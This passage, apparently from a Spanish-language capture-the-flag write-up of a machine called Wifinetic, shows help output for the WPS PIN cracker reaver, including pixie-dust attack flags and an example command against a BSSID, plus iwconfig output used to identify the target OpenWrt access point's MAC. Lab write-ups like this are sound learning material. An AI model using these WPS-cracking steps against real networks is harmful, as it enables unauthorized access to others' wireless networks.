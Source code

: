 ```bash
	-r, --recurring-delay=<x:y>     Sleep for y seconds every x pin attempts
	-t, --timeout=<seconds>         Set the receive timeout period [10]
	-T, --m57-timeout=<seconds>     Set the M5/M7 timeout period [0.40]
	-A, --no-associate              Do not associate with the AP (association must be done by another application)
	-N, --no-nacks                  Do not send NACK messages when out of order packets are received
	-S, --dh-small                  Use small DH keys to improve crack speed
	-L, --ignore-locks              Ignore locked state reported by the target AP
	-E, --eap-terminate             Terminate each WPS session with an EAP FAIL packet
	-J, --timeout-is-nack           Treat timeout as NACK (DIR-300/320)
	-F, --ignore-fcs                Ignore frame checksum errors
	-w, --win7                      Mimic a Windows 7 registrar [False]
	-K, --pixie-dust                Run pixiedust attack
	-Z                              Run pixiedust attack
	-O, --output-file=<filename>    Write packets of interest into pcap file

Example:
	reaver -i wlan0mon -b 00:90:4C:C1:AC:21 -vv
```

mos el **BSSID** del **AP** hay podemos ver la dirección **MAC** de **OpenWrt**

```bash
netadmin@wifinetic:~$ iw dev
phy#2
	Interface mon0
		ifindex 7
		wdev 0x200000002
		addr 02:00:00:00:02:00
		type monitor
		txpower 20.00 dBm
	Interface wlan2
netadmin@wifinetic:~$ iwconfig
hwsim0    no wireless extensions.

wlan2     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
wlan1     IEEE 802.11  ESSID:"OpenWrt"  
          Mode:Managed  Frequency:2.412 GHz  Access Point: 02:00:00:00:00:00   
          Bit Rate:18 Mb/s   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=70/70  Signal level=-30 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:8   Missed beacon:0

lo        no wireless extensions.

wlan0     IEEE 802.11  Mode:Master  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
eth0      no wireless extensions.

netadmin@wifinetic:~$ 
```
